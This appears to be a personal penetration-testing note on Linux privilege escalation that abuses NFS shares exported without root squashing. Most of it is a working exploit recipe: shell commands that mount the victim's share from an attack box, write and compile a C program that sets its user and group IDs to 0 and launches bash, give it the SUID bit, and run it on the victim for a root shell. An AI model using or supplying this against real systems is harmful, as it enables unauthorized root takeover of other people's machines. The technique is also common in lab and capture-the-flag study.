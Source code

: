 -- -
General workflow is to find a directory you can mount that does not squash root. Mount it on your attack box, make a malicious executable as root, give malware SUID bit, then run said executable from the victim to get a shell. 
[[Dark Arts/Privesc/Linux/Enumeration/NFS Root Squashing|Enum]]

#### Exploit
###### On Attackbox
```bash
# !!!!!!!!! MAKE SURE YOU ARE ROOT TO DO ALL THIS ON YOUR ATTACK BOX !!!!!!!!!!!
# make a mount point
# can make it wherever, usually I do it in /mnt 
mkdir /tmp/mountme

# mount remote share
# requires sudo to run
# may need to play with the version to get it to mount, when attempting this in practice: 
#vers=3 
# is what worked
mount -o rw,vers=1 <target ip>:<mount dir> /tmp/mountme
mount -o rw,vers=2 192.168.67:/tmp /tmp/mountme

# make malicious c file on remote mount
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c

# you can also generate a shell with msfvenom and use that rather than above file

# compile malware
# ignore warnings like usual
gcc /tmp/mountme/x.c -o /tmp/mountme/x
chmod +s /tmp/mountme/x
```
###### On Victim
```bash
# now just go to the file location and run
cd /tmp 
./x
# should spawn a root shell
```
